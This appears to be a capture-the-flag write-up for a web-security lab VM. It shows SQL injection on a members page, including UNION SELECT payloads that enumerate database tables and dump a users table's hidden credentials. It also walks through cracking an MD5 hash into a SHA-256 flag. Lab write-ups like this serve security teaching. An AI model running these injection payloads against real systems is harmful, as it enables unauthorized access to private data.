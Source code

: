 # Members

## Testing

If we go to `http://192.168.56.102/index.php?page=member` we can try to do an
SQL injection such as `;` in the input which will give us a error with a mention to MariaDB.

## Exploit

We can now try to search for a list of tables and columns in the database with the input
`1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS`.
We can then observe a definition of a table named `users` wich contains column like
`Commentaire` and `countersign`. If we query those two values with 
`1 UNION SELECT Commentaire, contersign FROM users` we can get the values
```
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

## Decrypt

We can assume that the countersign is an md5 hash wich will give us the value
`FortyTwo`, then lowered `fortytwo`, and then finally sha256 executed on it
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
